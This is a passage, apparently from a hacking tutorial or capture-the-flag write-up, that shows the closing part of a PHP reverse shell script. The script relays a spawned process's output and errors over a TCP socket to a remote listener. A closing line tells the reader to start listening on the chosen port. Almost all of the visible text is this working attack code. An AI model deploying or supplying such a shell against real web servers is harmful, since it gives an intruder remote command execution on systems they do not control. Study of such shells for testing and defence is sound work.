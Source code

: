 ``` php

fwrite($pipes[0], $input);

}

// If we can read from the process's STDOUT
// send data down tcp connection

if (in_array($pipes[1], $read_a)) {

if ($debug) printit("STDOUT READ");

$input = fread($pipes[1], $chunk_size);

if ($debug) printit("STDOUT: $input");

fwrite($sock, $input);

}

// If we can read from the process's STDERR
// send data down tcp connection

if (in_array($pipes[2], $read_a)) {

if ($debug) printit("STDERR READ");

$input = fread($pipes[2], $chunk_size);

if ($debug) printit("STDERR: $input");

fwrite($sock, $input);

}

}

  

fclose($sock);

fclose($pipes[0]);

fclose($pipes[1]);

fclose($pipes[2]);

proc_close($process);

  

// Like print, but does nothing if we've daemonised ourself

// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
if (!$daemon) {
print "$string\n";
}
}
?>
```

So now we just need to start listening on the port established.
